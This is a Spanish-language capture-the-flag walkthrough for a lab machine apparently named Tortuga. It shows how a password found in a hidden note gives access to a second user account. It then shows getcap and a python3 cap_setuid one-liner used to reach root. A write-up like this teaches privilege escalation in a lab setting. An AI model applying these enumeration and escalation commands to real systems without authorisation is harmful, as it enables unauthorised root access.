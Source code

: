 ###### Usuario `[ Grumete ]`:
Tenemso la flag de usuario
```bash
-r-------- 1 grumete grumete   33 sep  5 11:55 user.txt
```

Tenemos un archivo oculto en el directorio de este usuario:
```bash
-rw-r--r-- 1 root    root     791 sep  5 13:23 .nota.txt
```

Revisamos su contenido:
```txt
grumete@TheHackersLabs-Tortuga:~$ cat .nota.txt 
Querido grumete,

Parto rumbo a la isla vecina por asuntos que no pueden esperar, estaré fuera un par de días. 
Mientras tanto, confío en ti para que cuides del barco y de la tripulación como si fueran míos. 

La puerta de la cámara del timón está asegurada con la contraseña: 
    "mar_de_fuego123"  

Recuerda, no se la reveles a nadie más. Has demostrado ser leal y firme durante todos estos años 
navegando juntos, y eres en quien más confío en estos mares traicioneros.

Mantén la guardia alta, vigila las provisiones y cuida de que ningún intruso ponga un pie en cubierta.  
Cuando regrese, espero encontrar el barco tal y como lo dejo hoy (¡y nada de usar la bodega de ron 
para hacer carreras de tortugas otra vez!).  

Con la confianza de siempre,  
— El Capitán
```

Tenemos una potencial password que usaremos para conectarnos como el usuario **capitan**
```bash
su capitan # mar_de_fuego123
```
###### Usuario `[ Capitan ]`:
Para este usuario tenemos capabilities abilitadas en el binario de **python3**
```bash
getcap -r / 2>/dev/null
```

Binario con **Capabilitie**
```bash
/usr/bin/python3.11 cap_setuid=ep
```

Si podemos controlar el **ID** importando la libreria **os**, si como **output** vemos **root**, ya podemso ganar acceso como **root**
```bash
capitan@TheHackersLabs-Tortuga:~$ /usr/bin/python3.11 -c 'import os; os.setuid(0); os.system("whoami")'
root
```
